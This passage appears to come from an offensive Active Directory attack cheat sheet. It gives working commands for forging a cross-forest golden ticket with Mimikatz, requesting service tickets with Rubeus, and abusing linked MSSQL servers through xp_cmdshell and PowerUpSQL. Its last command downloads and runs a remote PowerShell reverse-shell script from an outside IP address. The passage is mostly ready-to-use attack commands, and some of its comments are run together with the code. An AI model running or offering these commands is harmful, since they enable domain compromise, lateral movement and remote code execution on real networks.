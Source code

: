 Kerberos::golden /user:Administrator /service:krbtgt /domain:currentdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /target:targetdomain.com /rc4:fe8884bf222153ca57468996c9b348e9 /ticket:ticket.kirbi

Plaintext

Then, use Rubeus to ask a TGS for e.g. the `CIFS` service on the target DC using this TGT.

.\Rubeus.exe asktgs /ticket:c:\ad\tools\eucorp-tgt.kirbi /service:CIFS/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt

PowerShell

Now we can use the CIFS service on the target forest’s DC as the DA of our source domain (again, as long as this trust was configured to exist).

# Abusing MSSQL databases for lateral movement

MSSQL databases can be linked, such that if you compromise one you can execute queries (or even OS commands!) on other databases in the context of a specific user (`sa` maybe? ). If this is configured, it can even be used to traverse Forest boundaries! If we have SQL execution, we can use the following commands to enumerate database links.

-- Find linked servers  
EXEC sp_linkedservers-- Run SQL query on linked server  
select mylogin from openquery("TARGETSERVER", 'select SYSTEM_USER as mylogin')-- Enable 'xp_cmdshell' on remote server and execute commands, only works if RPC is enabled  
EXEC ('sp_configure ''show advanced options'', 1; reconfigure') AT TARGETSERVER  
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure') AT TARGETSERVER  
EXEC ('xp_cmdshell ''whoami'' ') AT TARGETSERVER

SQL

We can also use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) to look for databases within the domain, and gather further information on (reachable) databases. We can also automatically look for, and execute queries or commands on, linked databases (even through multiple layers of database links).

# Get MSSQL databases in the domain, and test connectivity  
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ft# Try to get information on all domain databases  
Get-SQLInstanceDomain | Get-SQLServerInfo# Get information on a single reachable database  
Get-SQLServerInfo -Instance TARGETSERVER# Scan for MSSQL misconfigurations to escalate to SA  
Invoke-SQLAudit -Verbose -Instance TARGETSERVER# Execute SQL query  
Get-SQLQuery -Query "SELECT system_user" -Instance TARGETSERVER# Run command (enables XP_CMDSHELL automatically if required)  
Invoke-SQLOSCmd -Instance TARGETSERVER -Command "whoami" |  select -ExpandProperty CommandResults# Automatically find all linked databases  
Get-SqlServerLinkCrawl -Instance TARGETSERVER | select instance,links | ft# Run command if XP_CMDSHELL is enabled on any of the linked databases  
Get-SqlServerLinkCrawl -Instance TARGETSERVER -Query 'EXEC xp_cmdshell "whoami"' | select instance,links,customquery | ftGet-SqlServerLinkCrawl -Instance TARGETSERVER -Query 'EXEC xp_cmdshell "powershell.exe -c iex (new-object net.webclient).downloadstring(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1'')"' | select instance,links,customquery | ft
